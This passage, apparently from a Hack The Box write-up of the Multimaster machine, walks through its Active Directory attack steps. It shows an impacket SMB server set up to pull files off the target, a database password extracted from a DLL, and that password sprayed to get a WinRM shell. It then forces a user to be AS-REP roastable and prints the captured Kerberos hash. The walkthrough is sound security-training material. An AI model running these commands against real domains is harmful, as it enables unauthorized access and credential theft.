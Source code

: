 ```
01/07/2020  11:52 PM             1,098 index.html
01/07/2020  11:50 PM    <DIR>          js
01/07/2020  10:28 PM    <DIR>          Scripts
01/07/2020  10:28 PM    <DIR>          Views
01/09/2020  05:13 AM             3,640 Web.config
               4 File(s)          8,450 bytes
              13 Dir(s)   6,584,827,904 bytes free

C:\inetpub\wwwroot>
```

Most of the files, based on their modification date, seem to be default. But there are two that stick out to me due to their name and modification date; the MultimasterAPI files. I'll copy them over to my Kali machine by hosting an smb server with "impacket" and I'll try to decompile them.

```
┌──(root💀kali)-[/home/kali/HackTheBox/multimaster]                                                                   
└─# impacket-smbserver share . -smb2support                                                                           
```

I ran "strings" multiple times with different encodings, and found that 16 bit encoding nets something useful

```
┌──(root💀kali)-[/home/kali/HackTheBox/multimaster]
└─# strings -eb apidll

...
erver=localhost;database=Hub_DB;uid=finder;password=D3veL0pM3nT!;
```

It seems this is how the webpage was able to communicate and make SQL queries. Spraying this password in a similar fashion as before gives us a hit to sbauer, and we can now utilize WinRM for a shell.

### Privilege Escalation

Time to continue our kill chain. I could use my GenericWrite as sbauer over jorden to make him ASREProastable and crack the hash if jorden has a weak password.

```
*Evil-WinRM* PS C:\Users\sbauer\Documents> get-aduser 'jorden' | set-adaccountcontrol -doesnotrequirepreauth 1

┌──(root💀kali)-[/home/kali/HackTheBox/multimaster]
└─# impacket-GetNPUsers megacorp.local/'sbauer':'D3veL0pM3nT!' -dc-ip 10.10.10.179 -request
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Name    MemberOf                                      PasswordLastSet             LastLogon  UAC      
------  --------------------------------------------  --------------------------  ---------  --------
jorden  CN=Developers,OU=Groups,DC=MEGACORP,DC=LOCAL  2020-01-09 19:48:17.503303  <never>    0x410200 


$krb5asrep$23$jorden@MEGACORP.LOCAL:386bc264be355689e24f3b3ef2f65358$4a360543309d1dac3a6d38f997e40faf4320af7d06fa5694592c366b9199894ff538152703fe1990901fab235ea8a579d8ec86b7cefe89e47b21917f06050c2679339203a14e64003dffdc8714ae823b9754002445b4cdef75134ed5af6697d19ee95d00301a5c48f49c1cb91830351e57fcb2c42b6251083326e0c134032e2290bee5b4346f56db469f50ea3bbf041b515ebe9b7d99124298d20ae13f7551c4928a6501e7d8f3ed189afdf7ea084dbdf6cf743253d3817842effa8722f68e542b4c3cc7f0f150bcfa0a5f17200f9e6f6f89c0190fdd88d3555856a8a5097368482af9222054fb6739dc3a56acb3307f
```
